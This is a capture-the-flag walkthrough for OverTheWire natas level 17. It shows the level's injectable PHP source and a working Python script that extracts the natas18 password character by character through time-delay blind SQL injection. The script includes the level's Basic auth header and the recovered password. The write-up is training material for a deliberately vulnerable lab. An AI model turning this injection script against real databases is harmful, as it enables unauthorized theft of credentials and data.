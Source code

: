 ```yaml
---
title: natas 17 walkthrough
description: over the wire natas 17
layout: libdoc_page
date: 1111-11-11
eleventyNavigation:
    key: natas-17 OverTheWire CTFs
    parent: OverTheWire CTFs
    title: natas 17 walkthrough
    order: 30
---
```

## Description
> Username: natas17
> 
> URL:      http://natas17.natas.labs.overthewire.org
### Source Code
```php
<?php

/*
CREATE TABLE `users` (
  `username` varchar(64) DEFAULT NULL,
  `password` varchar(64) DEFAULT NULL
);
*/

if (array_key_exists("username", $_REQUEST)) {
    $link = mysqli_connect('localhost', 'natas17', '<censored>');
    mysqli_select_db($link, 'natas17');

    $query = "SELECT * from users where username=\"" . $_REQUEST["username"] . "\"";
    if (array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

    $res = mysqli_query($link, $query);
    if ($res) {
        if (mysqli_num_rows($res) > 0) {
            //echo "This user exists.<br>";
        } else {
            //echo "This user doesn't exist.<br>";
        }
    } else {
        //echo "Error in query.<br>";
    }
    mysqli_close($link);
} else {
?>
```

---
## Progress
### Observation
Seems we cannot get anything different with different inputs. Try to see if it is true. It seems like that.
However, there's a line which output the query. Therefore, use the url `http://natas17.natas.labs.overthewire.org/?debug=true&username=a`.
### Trial
From this [article](https://security.stackexchange.com/questions/109415/php-code-injection-using-get-and-echo), it seems we can only achieve [[XSS]] via the only echo line. 
We cannot get anything different by the output. Time may be a way to distinguish the difference. [[Time Delay SQL Injection]]
### Script
```python
import requests
from bs4 import BeautifulSoup
from datetime import datetime

WAITING_TIME_SECONDS = 4

def request_with_password(password : str) -> bool:
    payload = f"natas18\" and if(password like binary \"{password}%\", sleep({WAITING_TIME_SECONDS}), 'no') -- "
    return request_with_payload(f"?debug=true&username={payload}")

def request_with_payload(payload: str):
    header = {
        "Authorization" : "Basic bmF0YXMxNzpYa0V1Q2hFMFNibktCdkgxUlU3a3NJYjl1dUxtSTdzZA==",
    }
    url = "http://natas17.natas.labs.overthewire.org/index.php"
    url += payload
    time_before_request = datetime.now()
    response = requests.get(url, headers=header)
    time_after_request = datetime.now()
    waiting_time = (time_after_request - time_before_request).total_seconds()
    return waiting_time > WAITING_TIME_SECONDS

def main():
    success_password = "8"
    letters = 'abcdefghijklmnopqrstuvwxyz'
    candidates = letters + letters.upper() + "0123456789"
    while True:
        for candidate in candidates:
            if request_with_password(success_password + candidate):
                success_password += candidate
                print(success_password)
                break
        else:
            print(f"password : {success_password}")
            break

main()
```
The script is awful, since the delay may differ from time to time due to the speed of internet.
One may want to check again when get a part of the password.
Still can find the password : 8NEDUUxg8kFgPV84uLwvZkGn6okJQ6aq

---
## Hint

---
## Solving
### Category
- 
### Techniques
- [[sql injection MOC]]

### Tools
- 